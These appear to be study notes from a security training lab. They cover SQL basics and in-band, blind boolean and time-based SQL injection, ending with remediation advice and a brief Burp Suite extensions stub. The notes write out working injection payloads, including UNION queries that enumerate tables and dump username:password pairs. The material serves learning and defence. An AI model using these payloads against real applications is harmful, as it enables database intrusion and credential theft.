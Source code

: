 ## SQL Injection
- Structured Query Language
- ``` select * from users where username like 'a%'; ``` returns any rows with username beginning with the letter a.
- ``` select * from users where username like '%n'; ```  ending with the letter n.
- ``` select * from users where username like '%mi%'; ``` characters mi within them.

Union
- ``` SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers; ```

Insert
- ``` insert into users (username,password) values ('bob','password123'); ```

Update
- ``` update users SET username='root',password='pass123' where username='admin'; ```

Delete
- ``` delete from users where username='martin'; ```

In-Band SQL Injection
- select * from article where id = ``` 0 UNION SELECT 1,2,database() ```
- get database name
- select * from article where id = ``` 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one' ```
- get table names in the database "sqli_one"
- select * from article where id = ``` 0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users' ```
- get column names in the table "staff_users"
- select * from article where id = ``` 0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users ```

Blind SQLi (Boolean Based)
- select * from users where username = '```A' UNION SELECT 1,2,3 WHERE database() like 's%';--```' LIMIT 1 
- we can try every possible combination to find the database`s name.

Blind SQLi (Time base)
The table has 2 columns.
- ``` admin123' UNION SELECT SLEEP(5);-- ``` No sleep, just return.
- ``` admin123' UNION SELECT SLEEP(5),2;-- ``` Sleep for 5 sconds.

Out-of-Band SQLi:
- attack channel could be a web request
- data gathering channel could be monitoring HTTP/DNS requests made to a service you control.

Remediation：
- Prepared Statements (With Parameterized Queries)
- Input Validation
- Escaping User Input

## Burp Suite Basic
**Extensions**
- java, jython, jRuby
- https://www.jython.org/
- https://www.jruby.org/
- Burp Suite Extender module: load extension, providing a marketplace.
